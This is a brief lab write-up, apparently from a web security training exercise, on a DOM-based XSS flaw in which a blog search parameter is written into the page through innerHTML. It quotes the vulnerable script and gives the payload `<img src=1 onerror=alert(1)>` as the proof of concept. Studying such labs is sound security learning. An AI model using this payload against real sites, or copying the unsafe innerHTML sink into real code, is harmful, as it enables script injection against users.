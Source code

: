 # Lab 4: innerHTML sink

## Analysis
Vulnerability location: blog search

Script:
```
<script>
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
</script>
```

If you pass `<img src=1>` there will be an error image that loads in the site.

We can then change this to `<img src=1 onerror=alert(1)>`
